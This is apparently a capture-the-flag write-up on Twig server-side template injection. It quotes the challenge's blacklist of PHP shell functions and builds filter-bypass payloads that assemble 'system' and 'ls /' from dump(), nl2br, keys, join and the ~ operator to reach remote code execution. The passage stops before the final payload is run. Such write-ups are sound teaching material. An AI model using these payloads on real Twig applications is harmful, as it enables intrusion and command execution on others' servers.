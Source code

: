 Let's analyze the problem before going into the payload.
This is a Twig SSTI challenge, our goal is to bypass the blacklist and achieve RCE.
```php
$blacklist = ['system', 'id', 'passthru', 'exec', 'shell_exec', 'popen', 'proc_open', 'pcntl_exec', '_self', 'reduce', 'env', 'sort', 'map', 'filter', 'replace', 'encoding', 'include', 'file', 'run', 'Closure', 'Callable', 'Process', 'Symfony', '\'', '"', '.', ';', '[', ']', '\\', '/', '-'];
```
And the flag file name is randomly generated so we have to find out the flag file name first than read it. So we'll need 2 payload to solve it.

So we need to do `system('ls /')` first, but how?
The character `/` is in the blacklist and the space character will need quotes, but it's also in the blacklist.

One way we can get those character is via [`dump()`](https://twig.symfony.com/doc/3.x/functions/dump.html){:target="_blank"} function and [`nl2br()`](https://twig.symfony.com/doc/3.x/filters/nl2br.html){:target="_blank"} filter, which return alot of character we can use.

If we send the payload like: `{% raw %}{{dump()|nl2br()}}{% endraw %}` we'll get the following output
```
array(2) {<br /> ["user"]=><br /> array(2) {<br /> ["name"]=><br /> string(6) "Wesley"<br /> ["age"]=><br /> int(30)<br /> }<br /> ["items"]=><br /> array(4) {<br /> [0]=><br /> string(5) "Apple"<br /> [1]=><br /> string(6) "Banana"<br /> [2]=><br /> string(6) "Cherry"<br /> [3]=><br /> string(11) "Dragonfruit"<br /> }<br /> }<br />
```
As you can see, there's our ` ` and `/` character at index 13 and 14, now we'll just need to extract them with the `slice()` and `join()` filter, `slice()` will always return an array so we'll use `join()` to concatenate them together.

So we got ` ` and `/` now, let's assign them to a variable first.

```
{% raw %}{% set slash=(dump()|nl2br()|slice(14,1))|join() %}
{% set space=(dump()|nl2br()|slice(13,1))|join() %}{% endraw %}
```

Next we need to find a way to get `system`.
To get system, we can actually do the same as ` ` and `/` but it'll be to tedious. Instead, we can do something like this: `{syste:1}|keys|join()`. The `keys` filter will extract all the keys in an object and put it into an array, in this case, we'll get `syste`.

For the character `m` we can do this `{m:1}|keys|join()`.

In order to join them together, Twig has a very convenient operator which is `~` that is not in the blacklist.

![twig tilde doc](twig-tilde.png)
*Reference: [https://www.branchcms.com/learn/docs/developer/twig/operators](https://www.branchcms.com/learn/docs/developer/twig/operators){:target="_blank"}*

Let's set those two as a variable first.
```
{% raw %}{% set syste={syste:1}|keys|join() %}
{% set m={m:1}|keys|join() %}{% endraw %}
```
So we can do something like this `syste~m` which will return the string `system`.
Oh and make sure to set `ls` as a variable too so we can chain them together.
```
{% raw %}{% set ls={ls:1}|keys|join() %}
{% set rce=ls~space~slash %}{% endraw %}
```
`ls~space~slash` will result in `ls /`.
